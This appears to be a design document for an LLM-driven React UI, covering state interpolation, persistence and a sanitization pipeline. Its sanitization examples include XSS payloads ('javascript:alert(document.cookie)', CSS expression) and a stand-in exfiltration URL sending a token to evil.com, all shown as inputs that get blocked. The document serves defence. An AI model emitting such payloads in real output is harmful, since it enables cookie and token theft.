


# Data Flow & State Management

## Overview

Adaptive UI manages state through a centralized React Context with a reducer pattern. State flows in one direction: components dispatch actions, the reducer updates the store, React re-renders affected components.

## State Architecture



## Data Flow Cycle



## Template Interpolation

The interpolation engine resolves `{{state.key}}` and `{{item.key}}` patterns in all string props at render time.

### State Interpolation

```json
// Spec from LLM
{ "type": "text", "content": "Deploying to {{state.region}} with {{state.tier}} tier" }

// State: { region: "eastus", tier: "Standard" }

// Rendered: "Deploying to eastus with Standard tier"
```

### Item Interpolation (Lists)

Inside `list` components, templates reference the current iteration item:

```json
{
  "type": "list",
  "items": "{{state.services}}",
  "template": {
    "type": "card",
    "title": "{{item.name}}",
    "children": [
      { "type": "text", "content": "Status: {{item.status}}" }
    ]
  }
}
```

### Deep Interpolation

`interpolateDeep()` recursively walks objects and arrays, replacing templates in every string value. Non-string values pass through unchanged.

### Nested Key Access

Supports dot-notation for nested objects:

```
{{state.config.database.host}} → resolves state.config.database.host
```

## Sensitive State Protection

### Classification

A state key is considered sensitive if:
1. It starts with `__` (double underscore) — e.g., `__azureToken`, `__githubUser`
2. It matches patterns: `token`, `apiKey`, `secret`, `password`, `credential`, `connectionString`

### Protection Layers

```
┌──────────────────────────────────────────────────────┐
│  Layer 1: LLM Context Filtering                      │
│  State sent to LLM has __ keys removed               │
│  → LLM never sees tokens or credentials              │
│                                                      │
│  Layer 2: URL Interpolation Blocking                  │
│  sanitize.ts blocks {{state.__token}} in URLs         │
│  → prevents token exfiltration via URLs               │
│                                                      │
│  Layer 3: Debug Panel Redaction                        │
│  State visualizer excludes __ keys + large objects    │
│  → developers don't accidentally expose tokens        │
│                                                      │
│  Layer 4: Component Interpolation (allowed)           │
│  {{state.__azureSubscription}} works in component     │
│  props like picker API URLs — this is intentional     │
│  and safe because it stays client-side                │
└──────────────────────────────────────────────────────┘
```

### Example: Azure Picker

```json
{
  "type": "azurePicker",
  "api": "/subscriptions/{{state.__azureSubscription}}/locations?api-version=2022-12-01",
  "bind": "region"
}
```

- `{{state.__azureSubscription}}` is interpolated client-side for the API call
- The subscription ID never reaches the LLM
- `sanitize.ts` would block it if it appeared in a `navigate` URL or `link` href

## Sanitization Pipeline

All LLM-produced specs pass through `sanitizeSpec()` before rendering:

### URL Sanitization
```
Input:  "javascript:alert(document.cookie)"
Output: "#blocked"

Input:  "data:text/html,<script>..."
Output: "#blocked"

Allowed: http:, https:, mailto:, tel:, data:image/*
```

### CSS Sanitization
```
Input:  { background: "expression(alert(1))" }
Output: { background: "" }

Input:  { background: "url(javascript:...)" }
Output: { background: "" }
```

### Interpolation Sanitization
```
Input:  "https://evil.com/steal?token={{state.__azureToken}}"
Output: "https://evil.com/steal?token=[REDACTED]"
```

## Persistence

### Session Persistence (localStorage)

```
Key                              Value
─────────────────────────────    ──────────────────────
adaptive-ui-sessions             Session index (JSON array)
adaptive-ui-session-{id}         Full turn history for session
adaptive-ui-artifacts            Saved code/file artifacts
adaptive-ui-active-session       Current active session ID
adaptive-ui-turns-{sessionId}    Turn data for demo apps
adaptive-ui-settings             LLM config (endpoint, model, etc.)
```

### Session Structure

```typescript
interface Session {
  id: string;          // "session-{timestamp}-{random}"
  name: string;        // User-editable or auto-generated
  createdAt: number;
  updatedAt: number;
  turnCount: number;
}
```

Sessions are stored separately from turn data — the index stays small while turn data can be large.

### Artifact Persistence

```typescript
interface Artifact {
  id: string;          // "artifact-{counter}-{timestamp}"
  filename: string;    // "main.bicep"
  language: string;    // "bicep"
  content: string;
  label?: string;      // "AKS Infrastructure"
  createdAt: number;
}
```

Artifacts are upserted by filename — updating a file with the same name replaces the content rather than creating a duplicate.

## Pub/Sub for Real-Time Updates

Both session and artifact stores use a publish/subscribe pattern for React integration:

```typescript
// Subscribe to changes
const sessions = useSyncExternalStore(subscribeSessions, getSessions);
const artifacts = useSyncExternalStore(subscribeArtifacts, getArtifacts);
```

This enables real-time UI updates when:
- A new session is saved
- An artifact is created/updated/removed
- A session is renamed or deleted

## Request Tracking

The `request-tracker` monitors all non-LLM HTTP requests for the activity indicator:

```
Tracked:     ARM API calls, GitHub API calls, skill fetches
Not tracked: OpenAI/Azure AI endpoint calls (handled separately by adapter)
Max history: 50 completed requests (FIFO eviction)
```

Each request records: method, URL, start time, status code, duration, body preview.

## Conversation Turn Structure

Each turn in the conversation consists of:

```
┌─────────────────────────────────────┐
│  Turn N                             │
│                                     │
│  Agent bubble:                      │
│    agentMessage: "Pick a region"    │
│    layout: [interactive components] │
│                                     │
│  User bubble:                       │
│    "Selected eastus, Standard"      │
│    (shown after user advances)      │
│                                     │
│  State changes:                     │
│    region: "" → "eastus"            │
│    tier: "" → "Standard"            │
│                                     │
│  History summary (stored):          │
│    "User selected: region=eastus,   │
│     tier=Standard"                  │
└─────────────────────────────────────┘
```

Past turns are memoized to prevent re-rendering when new turns are added.

## Architecture Diagrams

Mermaid diagrams flow through a special path:

```
LLM output: { diagram: "flowchart TD\n  A[Web App] --> B[API]\n  B --> C[DB]" }
                │
                ▼
ArchitectureDiagram component:
  1. Parse Mermaid syntax
  2. Replace %%icon:azure/aks%% placeholders with  tags
  3. Escape parentheses in labels (common LLM error)
  4. Inject CSS for styling
  5. Render via Mermaid.js library
  6. Add pan & zoom (mouse drag + scroll wheel)
```

Diagram icons are registered by packs at startup:
```
azure/aks → Kubernetes Services SVG
azure/sql → SQL Database SVG
... 36 Azure icons total
```
